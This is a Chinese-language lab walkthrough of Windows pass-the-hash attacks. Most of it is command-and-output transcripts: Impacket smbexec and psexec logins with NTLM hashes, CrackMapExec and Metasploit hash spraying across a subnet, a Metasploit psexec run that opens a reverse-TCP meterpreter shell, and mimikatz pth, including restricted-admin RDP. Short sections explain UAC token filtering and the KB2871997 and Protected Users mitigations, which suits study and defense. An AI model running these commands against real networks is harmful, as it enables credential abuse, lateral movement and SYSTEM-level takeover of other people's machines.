

Hash传递攻击，由于NTLM认证和Kerberos认证的用户密码默认都是使用NTLM Hash进行加密的，因此如果在CMD5等无法破解出明文密码的时候，可以利用NTLM传递来进行攻击。

# 一、本地账户和域账号的PTH的区别
配置四个用户

```plain
# 本地普通用户 public_user
C:\Users\administrator.SEC>net user public_user Az123456@ /add
The command completed successfully.

# 本地管理员组用户 local_admin
C:\Users\administrator.SEC>net user local_admin Az123456@ /add
The command completed successfully.

C:\Users\administrator.SEC>net localgroup administrators local_admin /add
The command completed successfully.

# 本地管理员组用户 administrator
C:\Users\administrator.SEC>net user administrator Az123456789@
The command completed successfully.

# 域用户，在本地管理员组中
C:\Users\administrator.SEC>net user hack Az123456@ /domain
The request will be processed at a domain controller for domain sec.local.

The command completed successfully.

C:\Users\administrator.SEC>net localgroup administrators SEC\hack /add
The command completed successfully.
```

使用smbexec进行验证，哪些用户可以PTH

```plain
# 本地普通用户 public_user 失败
┌──(root㉿Kali)-[~]
└─# smbexec.py public_user@10.10.4.21 -hashes :27d86657f458a28aeed03655ba6a6137
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied

# 本地管理员组用户 local_admin 失败
┌──(root㉿Kali)-[~]
└─# smbexec.py local_admin@10.10.4.21 -hashes :27d86657f458a28aeed03655ba6a6137
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied

# 本地管理员组用户 administrator 成功
┌──(root㉿Kali)-[~]
└─# smbexec.py administrator@10.10.4.21 -hashes :711fb3ccd6a2a41503d484956a02b362
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

# 域用户，在本地管理员组中 成功
┌──(root㉿Kali)-[~]
└─# smbexec.py sec/hack@10.10.4.21 -hashes :27d86657f458a28aeed03655ba6a6137
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```

造成以上不同用户PTH结果不同的原因：

## 1、UAC
UAC是Windows Vista系统新引入的安全组件，UAC允许用户以非管理员的身份执行常见的日常任务（被称为标准用户）。作为本地管理员组的用户会以最小特权运行大多数程序，当必须执行需要管理员权限的任务时，UAC会向用户申请获得批准。

微软在网络上也实现了UAC限制机制，当内置administrator用户远程连接时会获得管理员凭证令牌，非administrator本地管理员组用户会得到删除了管理员凭证的令牌，通过本地管理员中的域用户不会生效UAC。

## 2、FilterAdministratorToken
如何禁止内置administrator用户获得管理员令牌？

在官方文档可得知，FilterAdministratorToken注册表值影响了UAC审批行为。


默认情况下，FilterAdministratorToken的值为0关闭状态，修改为1后将会需要用户审批确认。

参考：[https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/7c705718-f58e-4886-8057-37c8fd9aede1](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/7c705718-f58e-4886-8057-37c8fd9aede1)

## 3、LocalAccountTokenFilterPolicy
如何让非administrator本地管理员组用户获得管理员令牌？

在官方文档可得知，LocalAccountTokenFilterPolicy影响了UAC审批行为。



把该值修改为1即可让非administrator本地管理员组用户获得管理员令牌

## 4、本地账户
Windows Vista系统前的机器，可以使用本地管理员组的所有用户进行PTH；Windows Vista系统后的机器，只有本地Administrator用户可以PTH

## 5、域账号
域账号不受UAC远程连接影响，域用户在本地管理员组或者域管均可PTH

# 二、Hash碰撞
在内网中，很多计算机安装的时候是使用相同的密码，当获得某台机器Hash时可以尝试碰撞其他相同密码的机器。

## 1、CrackMapExec
```plain
└─# crackmapexec smb 10.10.4.0/24 -u administrator -H :27d86657f458a28aeed03655ba6a6137 --local-auth
SMB         10.10.4.5       445    EXCHANGE         [*] Windows 10 / Server 2019 Build 17763 x64 (name:EXCHANGE) (domain:EXCHANGE) (signing:True) (SMBv1:False)
SMB         10.10.4.20      445    WIN2008-1        [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:WIN2008-1) (domain:WIN2008-1) (signing:False) (SMBv1:True)
SMB         10.10.4.21      445    WIN10-1          [*] Windows 10 / Server 2019 Build 19041 x64 (name:WIN10-1) (domain:WIN10-1) (signing:False) (SMBv1:False)
SMB         10.10.4.2       445    WIN2019-DC1      [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN2019-DC1) (domain:WIN2019-DC1) (signing:True) (SMBv1:False)
SMB         10.10.4.5       445    EXCHANGE         [+] EXCHANGE\administrator:27d86657f458a28aeed03655ba6a6137 (Pwn3d!)
SMB         10.10.4.20      445    WIN2008-1        [+] WIN2008-1\administrator:27d86657f458a28aeed03655ba6a6137 (Pwn3d!)
SMB         10.10.4.21      445    WIN10-1          [+] WIN10-1\administrator:27d86657f458a28aeed03655ba6a6137 (Pwn3d!)
SMB         10.10.4.2       445    WIN2019-DC1      [-] WIN2019-DC1\administrator:27d86657f458a28aeed03655ba6a6137 STATUS_LOGON_FAILURE
```

## 2、MSF
```plain
msf6 auxiliary(scanner/smb/smb_login) > use auxiliary/scanner/smb/smb_login
[*] New in Metasploit 6.4 - The CreateSession option within this module can open an interactive session
msf6 auxiliary(scanner/smb/smb_login) > set verbose false
verbose => false
msf6 auxiliary(scanner/smb/smb_login) > set threads 100
threads => 100
msf6 auxiliary(scanner/smb/smb_login) > set smbuser administrator
smbuser => administrator
msf6 auxiliary(scanner/smb/smb_login) > set smbpass aad3b435b51404eeaad3b435b51404ee:27d86657f458a28aeed03655ba6a6137
smbpass => aad3b435b51404eeaad3b435b51404ee:27d86657f458a28aeed03655ba6a6137
msf6 auxiliary(scanner/smb/smb_login) > exploit
[+] 10.10.4.5:445         - 10.10.4.5:445 - Success: '.\administrator:aad3b435b51404eeaad3b435b51404ee:27d86657f458a28aeed03655ba6a6137' Administrator
[+] 10.10.4.2:445         - 10.10.4.2:445 - Success: '.\administrator:aad3b435b51404eeaad3b435b51404ee:27d86657f458a28aeed03655ba6a6137' Administrator
[+] 10.10.4.21:445        - 10.10.4.21:445 - Success: '.\administrator:aad3b435b51404eeaad3b435b51404ee:27d86657f458a28aeed03655ba6a6137' Administrator
[+] 10.10.4.20:445        - 10.10.4.20:445 - Success: '.\administrator:aad3b435b51404eeaad3b435b51404ee:27d86657f458a28aeed03655ba6a6137' Administrator
[*] 10.10.4.0/24:445      - Scanned  99 of 256 hosts (38% complete)
[*] 10.10.4.0/24:445      - Scanned 105 of 256 hosts (41% complete)
[*] 10.10.4.0/24:445      - Scanned 105 of 256 hosts (41% complete)
[*] 10.10.4.0/24:445      - Scanned 106 of 256 hosts (41% complete)
[*] 10.10.4.0/24:445      - Scanned 131 of 256 hosts (51% complete)
[*] 10.10.4.0/24:445      - Scanned 163 of 256 hosts (63% complete)
[*] 10.10.4.0/24:445      - Scanned 182 of 256 hosts (71% complete)
[*] 10.10.4.0/24:445      - Scanned 205 of 256 hosts (80% complete)
[*] 10.10.4.0/24:445      - Scanned 232 of 256 hosts (90% complete)
[*] 10.10.4.0/24:445      - Scanned 256 of 256 hosts (100% complete)
[*] 10.10.4.0/24:445      - Bruteforce completed, 4 credentials were successful.
[*] 10.10.4.0/24:445      - You can open an SMB session with these credentials and CreateSession set to true
[*] Auxiliary module execution completed

```

# 三、利用PTH进行横向移动
## 1、使用MSF进行PTH
```plain
msf6 auxiliary(scanner/smb/smb_login) > use exploit/windows/smb/psexec
[*] Using configured payload windows/meterpreter/reverse_tcp
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
msf6 exploit(windows/smb/psexec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set rhost 10.10.4.21
rhost => 10.10.4.21
msf6 exploit(windows/smb/psexec) > set smbuser administrator
smbuser => administrator
msf6 exploit(windows/smb/psexec) > set smbpass  aad3b435b51404eeaad3b435b51404ee:27d86657f458a28aeed03655ba6a6137
smbpass => aad3b435b51404eeaad3b435b51404ee:27d86657f458a28aeed03655ba6a6137
msf6 exploit(windows/smb/psexec) > exploit
[*] Started reverse TCP handler on 10.10.4.10:4444
[*] 10.10.4.21:445 - Connecting to the server...
[*] 10.10.4.21:445 - Authenticating to 10.10.4.21:445 as user 'administrator'...
[*] 10.10.4.21:445 - Selecting PowerShell target
[*] 10.10.4.21:445 - Executing the payload...
[+] 10.10.4.21:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (177734 bytes) to 10.10.4.21
[*] Meterpreter session 1 opened (10.10.4.10:4444 -> 10.10.4.21:49777) at 2025-04-28 13:33:30 -0400

meterpreter > shell
Process 3396 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19045.5737]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>

```

## 2、使用mimikatz进行PTH
```plain
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::pth /user:administrator /domain:10.10.4.21 /ntlm:27d86657f458a28aeed03655ba6a6137
user    : administrator
domain  : 10.10.4.21
program : cmd.exe
impers. : no
NTLM    : 27d86657f458a28aeed03655ba6a6137
  |  PID  14384
  |  TID  9656
  |  LSA Process is now R/W
  |  LUID 0 ; 238641759 (00000000:0e39625f)
  \_ msv1_0   - data copy @ 0000021374CE5AE0 : OK !
  \_ kerberos - data copy @ 0000021376281318
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 0000021375370FC8 (32) -> null

mimikatz #
```


## 3、使用Impacket进行PTH
```plain
(base) ┌──(root㉿Kali)-[~]
└─# psexec.py administrator@10.10.4.21 -hashes :27d86657f458a28aeed03655ba6a6137
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.4.21.....
[*] Found writable share ADMIN$
[*] Uploading file cYeGDDiA.exe
[*] Opening SVCManager on 10.10.4.21.....
[*] Creating service ivgL on 10.10.4.21.....
[*] Starting service ivgL.....
[!] Press help for extra shell commands                                                                                                                                                                                                                                                                                                Microsoft Windows [Version 10.0.19045.5737]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami                                                                                                                                                                                                                                                                                                             nt authority\system

C:\Windows\system32>

```

# 四、更新KB2871997补丁产生的影响
## 1、Protected Users组的支持
从Win Server 2012R2域功能起，引入了新的Protected Users组，该组中的用户：

1）强制只能使用Kerberos协议进行身份验证，拒绝NTLM、Digest和CredSSP认证。

2）使用Kerberos协议仅支持AES加密，拒绝DES和RC4

3）不能使用约束性或非约束性委派来委派用户的账户

所以，当用户加入Protected Users组后，无法PTH

## 2、Restricted Admin RDP模式远程客户端支持
从Windows 8.1和Windows Server 2012R2起，引入了Restricted Admin RDP模式。该模式对Desktop Users组用户不可用。在该模式之前，RDP登录到目标主机会把凭证存储在目标主机的内存中，如果该主机被入侵，凭证会泄露。

应用了该模式的主机支持使用Hash来登录，前提是连接发起端也要支持该模式，且连接用户是本地管理员用户

默认情况下，该模式默认关闭，需要在注册表开启

```plain
C:\Users\administrator.SEC>reg add "hklm\system\currentcontrolset\control\lsa" /f /v DisableRestrictedAdmin /t REG_DWORD /d 0
The operation completed successfully.

C:\Users\administrator.SEC>
```

administrator用户

```plain
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::pth /user:administrator /domain:10.10.4.21 /ntlm:27d86657f458a28aeed03655ba6a6137 "/run:mstsc.exe /restrictedadmin"
user    : administrator
domain  : 10.10.4.21
program : mstsc.exe /restrictedadmin
impers. : no
NTLM    : 27d86657f458a28aeed03655ba6a6137
  |  PID  7800
  |  TID  11924
  |  LSA Process is now R/W
  |  LUID 0 ; 408767920 (00000000:185d4db0)
  \_ msv1_0   - data copy @ 0000021374CE5CF0 : OK !
  \_ kerberos - data copy @ 000002137591E9E8
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 00000213753BA8D8 (32) -> null

mimikatz #
```

